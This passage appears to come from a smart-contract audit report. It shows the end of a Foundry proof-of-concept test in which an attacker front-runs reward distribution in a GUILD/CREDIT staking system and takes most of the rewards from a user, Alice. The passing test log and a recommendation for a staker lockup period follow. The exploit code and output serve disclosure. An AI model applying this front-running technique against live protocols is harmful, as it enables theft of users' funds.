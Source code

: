 ```solidity
            "Attaker Guild Reward",
            guild.balanceOf(address(this)),
            "=499.99 GUILD"
        );

        /* --------------------------------- ALICE GET REWARDS-------------------------------- */
        vm.startPrank(alice);
        console.log(
            "------------------------------------------------------------------"
        );
        console.log(
            "Alice credit bal before",
            credit.balanceOf(address(alice))
        );
        console.log("Alice Guild bal before", guild.balanceOf(address(alice)));
        sgm.getRewards(address(alice), address(term));
        console.log(
            "------------------------------------------------------------------"
        );
        console.log(
            "Alice credit bal after",
            credit.balanceOf(address(alice)),
            "= 0.009 CREDIT"
        );
        console.log(
            "Alice Guild bal after",
            guild.balanceOf(address(alice)),
            "= 0.049 GUILD"
        );
        vm.stopPrank();
    }
```

```solidity
[PASS] test_frontrunAndStealRewards() (gas: 1484537)
Logs:
  loan.borrowAmount 10000000000000000000000
  Attaker credit bal before 0
  Attaker Guild bal before 0
  ------------------------------------------------------------------
  Attaker credit rewards 99990000999900000000 = 99.99 CREDIT
  Attaker Guild Reward 499950004999500000000 =499.99 GUILD
  ------------------------------------------------------------------
  Alice credit bal before 0
  Alice Guild bal before 0
  ------------------------------------------------------------------
  Alice credit bal after 9999000099990000 = 0.009 CREDIT
  Alice Guild bal after 49995000499950000 = 0.049 GUILD

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 10.94ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

### recommendation

There should be some lockup period for GUILD stakers to be eligible for the rewards.